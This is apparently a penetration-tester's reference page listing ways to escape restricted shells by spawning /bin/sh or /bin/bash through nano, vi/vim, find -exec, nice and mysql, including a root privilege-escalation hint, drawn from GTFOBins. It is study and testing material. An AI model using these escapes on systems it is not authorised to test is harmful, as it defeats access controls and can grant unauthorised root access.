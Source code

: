 # Binary Execution

## 01 - Editors

### 1.1 - Nano

Launch the program then run the two shortcuts.

```
$ nano
CTRL + R
CTRL + X
```

Then open the shell

```
reset; /bin/sh 1>&0 2>&0

reset; /bin/bash 1>&0 2>&0
```

### 1.2 - Vi(m)

Open the text editor program.

```
$ vim

$ vi
```

Escape restricted shell in `vim` or `vi`.

```
:!/bin/sh

:!/bin/bash
```

Escape restricted shell in `vi`. You must set a predefined `shell` variable and invoke it.

```
:set shell=/bin/sh

:set shell=/bin/bash

:shell
```

## 02 - Find Files

```
$ find / -name "<name>" -exec /bin/sh \;

$ find / -name "<name>" -exec /bin/bash \;
```

## 03 - `nice`

```
$ nice /bin/sh

$ nice /bin/bash
```

## 04 - Database Backend

### 4.1 - `mysql`

> [!NOTE]
> This could even (potentially) be a way to escalate privileges (say for instance if mysql is running as root).

```
mysql> \! /bin/sh

mysql> \! /bin/bash
```

---
## References

- [GTFOBins: Rvim](https://gtfobins.github.io/gtfobins/rvim/)

- [GTFOBins: Vim](https://gtfobins.github.io/gtfobins/vim/)

- [GTFOBins: Vi](https://gtfobins.github.io/gtfobins/vi/)

- [GTFOBins: Vimdiff](https://gtfobins.github.io/gtfobins/vimdiff/)